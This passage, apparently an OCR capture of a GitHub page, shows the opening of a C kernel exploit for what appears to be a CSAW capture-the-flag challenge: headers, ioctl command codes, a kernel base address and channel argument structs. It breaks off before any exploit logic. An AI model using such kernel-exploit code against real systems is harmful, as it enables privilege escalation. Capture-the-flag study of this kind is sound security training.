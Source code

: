 ## Exploit

```

#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <time.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <sys/prctl.h>
#include <fcntl.h>
#include <string.h>
#include <sys/mman.h>

#define CHECKED(_val, err) \
  if (_val < 0) { \
    printf(err); \
    printf(" error\n"); \
    exit(-1); \
  }

#define PAGE_SIZE getpagesize()
#define PAGE_OFFSET 0xffffffff81000000
#define BUF_SIZE PAGE_SIZE

#define TASK_COMM_LEN 16

#define CSAW_IOCTL_BASE     0x77617363
#define CSAW_ALLOC_CHANNEL  CSAW_IOCTL_BASE+1
#define CSAW_OPEN_CHANNEL   CSAW_IOCTL_BASE+2
#define CSAW_GROW_CHANNEL   CSAW_IOCTL_BASE+3
#define CSAW_SHRINK_CHANNEL CSAW_IOCTL_BASE+4
#define CSAW_READ_CHANNEL   CSAW_IOCTL_BASE+5
#define CSAW_WRITE_CHANNEL  CSAW_IOCTL_BASE+6
#define CSAW_SEEK_CHANNEL   CSAW_IOCTL_BASE+7
#define CSAW_CLOSE_CHANNEL  CSAW_IOCTL_BASE+8

struct alloc_channel_args {
    size_t buf_size;
    int id;
};

struct open_channel_args {
    int id;
};

struct grow_channel_args {
    int id;
    size_t size;
};

struct shrink_channel_args {
    int id;
    size_t size;
};

struct read_channel_args {
    int id;
    char *buf;
    size_t count;
```